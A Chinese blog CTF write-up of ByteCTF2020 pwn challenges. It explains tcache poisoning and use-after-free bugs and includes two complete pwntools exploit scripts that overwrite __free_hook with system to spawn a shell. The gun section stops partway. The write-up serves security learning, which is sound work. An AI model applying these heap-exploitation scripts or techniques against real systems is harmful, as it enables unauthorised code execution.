<!--yml
category: 未分类
date: 2022-04-26 14:20:32
-->

# 【CTF题解NO.00005】ByteCTF2020 - pwn - write up by arttnba3_arttnba3的博客-CSDN博客

> 来源：[https://blog.csdn.net/arttnba3/article/details/112854031](https://blog.csdn.net/arttnba3/article/details/112854031)

### 【CTF题解NO.00005】ByteCTF2020 - pwn - write up by arttnba3

> 推荐到这里进行阅读：[github pages address](https://arttnba3.cn/2020/11/23/CTF-0X01-ByteCTF2020-pwn/)

# 0x00.绪论

ByteCTF是由字节跳动办的CTF，同时也是是字节跳动“安全范儿”高校挑战赛的一部分，作为baby pwner有幸和协会的师傅们代表L-team一起去北京参加了最后的总决赛（虽然说我好像没发挥啥作用Or2

题目的质量都很高，以及逆向量十分巨大，比赛当天把我给看晕了（当然主要还是因为我太菜了Or2

# 0x01.线上赛 - CTF -PWN

## 0x00.easy_heap - null by any address + tcache poisoning

[点击下载-easyheap](/download/bytectf2020/pwn/easyheap/easyheap "点击此处下载原题")

[点击下载-libc-2.31.so](/download/bytectf2020/pwn/easyheap/libc-2.31.so "点击此处下载原题")

惯例的堆题签到题，惯例的`checksec`，保护全开



拖入IDA进行分析（部分函数、变量经重命名）



不难看出，该程序有着**分配、释放、打印堆块**的功能，**且最多只能分配8个堆块**，空间有一丶丶紧张



## 漏洞：任意地址写0

我们不难发现在分配堆块的函数中存在着任意地址写0的漏洞



利用这个漏洞我们便可以构造**tcache poisoning**：free掉几个堆块进tcache后**改写第一个堆块的fd指针指向自身**（这里我们需要分到一个自身的fd的地址的高字节为’\x00’的堆块）

同时，我们可以**将一个堆块送入unsorted bin后切割出一个小堆块并打印，获得libc的基址**

需要注意的是*(ptr + size -1)写0的操作、我们的输入、unsortedbin的分割过程**都会破坏分割出来的这个小堆块上所储存的内容，**，故我们需要将这个0写到别的不会破坏堆结构的地方，同时我们的size应当尽量小、输入应当尽量少、且贴合原chunk内容，以**保证我们能够获得正确的libc基址**

我们先分配8个大小为0x91的chunk并释放，之后尝试分割出一个最小的chunk（malloc(1)，得到只清空了一个字节的0x21大小的chunk），gdb调试发现main_arena + 96的地址的最后一个字节**都是**`\xe0`，故我们仅输入一个`\xe0`字节即可



gdb调试发现这个小chunk保存的地址是**main_arena + 352**的地址，输出即可获得libc基址



接下来**利用任意地址写0构造tcache poisoning**：分配出FD所在地址末字节为0的chunk，free进tcache，之后用**任意地址写0使其FD指向自己的FD**即可


最后构造fake chunk改写`__free_hook`为`system`后释放一个内容为`"/bin/sh"`的chunk即可get shell

构造exp如下：

```
from pwn import *

p = process("./easyheap")
libc = ELF("/lib/x86_64-linux-gnu/libc-2.31.so")

def cmd(command:int):
    p.recvuntil(b">> ")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content: ")
    p.sendline(content)

def newWithZero(zero_location:int, size:int, content):
    cmd(1)
    p.recvuntil(b"Size: ")
    p.sendline(str(zero_location).encode())
    p.recvuntil(b"Invalid size.")
    p.recvuntil(b"Size: ")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content: ")
    p.sendline(content)

def dump(index:int):
    cmd(2)
    p.recvuntil(b"Index: ")
    p.sendline(str(index).encode())
    p.recvuntil(b"Content: ")

def delete(index:int):
    cmd(3)
    p.recvuntil(b"Index: ")
    p.sendline(str(index).encode())

def exp():

    log.info("Start filling the tcache")
    for i in range(8):
        new(0x80, "arttnba3")
    for i in range(7):
        delete(7 - i)

    log.info("Start leaking the libc addr")
    delete(0)
    newWithZero(0x100, 0x1, b'\xe0') 
    dump(0)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 352
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.info("Libc addr:" + str(hex(libc_base)))

    log.info("Start tcache poisoning")
    new(0x70, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x50, "arttnba3") 
    new(0x50, "arttnba3") 
    new(0x50, "arttnba3") 

    delete(3)
    delete(5)
    delete(4)

    newWithZero(-0xbf, 0x40, "arttnba3") 
    new(0x50, p64(libc_base + libc.sym['__free_hook'])) 
    new(0x50, b"/bin/sh\x00") 
    new(0x50, p64(libc_base + libc.sym['system'])) 

    delete(5) 
    p.interactive()

if __name__ == '__main__':
    exp() 
```

运行，成功getshell


## 0x01.gun - Use After Free + ORW

> 这道题我的IDA逆出来是一堆的shit…但是看别人的wp里IDA逆出来的东西怎么都这么正常…Orz

[点击下载-gun](/download/bytectf2020/pwn/gun/gun "点击此处下载原题")

[点击下载-libc-2.31.so](/download/bytectf2020/pwn/gun/libc-2.31.so "点击此处下载原题")

惯例的`checksec`，保护全开（~~大比赛的堆题好像都是保护全开，已经没有checksec的必要了~~）


拖入IDA进行分析~~，IDA分析出一坨shit~~

啥都看不出（悲）



seccomp限制了一堆东西，琢磨着应该是拿不到shell了，应该还是只能走orw拿弗莱格



不难看出这道题有着分配、打印、释放堆块的功能~~不难看出这把枪有发射、装载、购买子弹的功能~~



最多能够分配14个堆块，空间充足（x



在分配堆块的时候限制了大小在0xF到0x500之间~~似乎是一个没啥用的限制~~



load函数使用头插法构建单链表

# 0x02.线下赛 - AWD - PWN

## Day1

### 0x00.diary - Use After Free + tcache poisoning +

[点击下载-diary](/download/bytectf2020/final/awd/day1/diary/diary "点击此处下载原题")

~~ 感悟：这次线下的AWD逆向量巨大，符号表扣光，神必C++看着十分头晕 ~~主要还是我太菜了Or2

最简单的签到题，~~以至于我写完exp之后大家早就都修好了，甚至通防一挂这题就没法拿到shell了，所以基本上也不用修，不过想想似乎还是能够利用任意写在栈上构造ROP以后ORW读flag，但是比赛的时候忙着看后面的题去了~~

大概是以下几个点：

*   delete堆块的时候没有置零存在UAF
*   edit时会输出堆块大小，也就是输出FD，FD指针用来存储堆块大小，可以泄露堆地址和栈基址
*   由于犯了以chunk的FD指针来判断堆块大小的逻辑错误判断，于是delete后再edit可以进行堆块溢出
*   修改__free_hook为system以后释放一个内容为"/bin/sh"的块即可get shell

比赛中踩坑的点：

*   由于FD用于储存堆块大小，利用edit泄露main_arena的时候会破坏BK，需要手动将main_arena + 96输回去
*   同上，由于输入都是从BK开始，故需要堆溢出改一个chunk的FD为"/bin/sh"

比赛时写的exp如下：（稍微有一丶乱…）

```
from pwn import *
from LibcSearcher import *
context.log_level = 'DEBUG'
context.arch = 'amd64'

p = process('./diary')
e = ELF('./diary')
libc = ELF("/lib/x86_64-linux-gnu/libc-2.31.so") 
one_gadget = 0xe6e73

def cmd(index:int):
    p.recvuntil(b'Options')
    p.sendline(str(index).encode())

def new(name, size:int, content):
    cmd(1)
    p.recvuntil(b"Name:")
    p.sendline(name)
    p.recvuntil(b"Size:")
    p.sendline(str(size).encode())
    p.recvuntil(b"Content:")
    p.sendline(content)

def edit(name, content):
    cmd(2)
    p.recvuntil(b"Name:")
    p.sendline(name)
    p.recvuntil(b"bytes:")
    p.sendline(content)

def free(name):
    cmd(3)
    p.recvuntil(b"Name:")
    p.sendline(name)

def guess():
    cmd(4)

def exp():
    new('arttnba1', 0x10, '/bin/sh\x00')
    new('arttnba0', 0x10, 'arttnba0')
    new('arttnba2', 0x20, 'arttnba2')
    new('shell', 0x30, 'shell')
    new('sheep', 0x30, 'sheep')

    for i in range(5):
        free('arttnba0')
        edit('arttnba0', '') 
    for i in range(5):
        free('shell')
        edit('shell', '')
    for i in range(5):
        free('arttnba2')
        edit('arttnba2', '')

    free('arttnba2')
    p.recv()
    cmd(2)
    p.recvuntil(b"Name:")
    p.sendline('arttnba2')
    p.recvuntil(b"Input")
    heap_addr = int(p.recvuntil('bytes', drop = True), 16)
    p.sendline('')

    new('arttnba3', 0x90, 'arttnba3')

    for i in range(7):
        free('arttnba3')
        edit('arttnba3', '')

    free('arttnba3')
    p.recv()
    cmd(2)
    p.recvuntil(b"Name:")
    p.sendline('arttnba3')
    p.recvuntil(b"Input")
    main_arena = int(p.recvuntil('bytes', drop = True), 16) - 96
    p.sendline(p64(main_arena + 96)) 
    malloc_hook = main_arena - 0x10
    libc_base = malloc_hook - libc.sym['__malloc_hook']
    log.info('libc addr: ' + hex(libc_base))

    edit('arttnba0', b'A' * (0x8 + 0x50) + p64(0) + p64(0x31) + b'A' * 0 + p64(libc_base + libc.sym['__free_hook'] - 8) * 3)
    new('arttnba7', 0x20, p64(libc_base + libc.sym['system'])*2)
    new('freehook', 0x20, p64(libc_base + libc.sym['system'])*2)

    edit('shell', b'A' * (0x8 + 0x20 + 0x50) + p64(0) + p64(0x41) + b'A' * 0 + b'/bin/sh\x00' * 10)

    free('sheep') 
    p.interactive()

if __name__ == '__main__':
    exp() 
```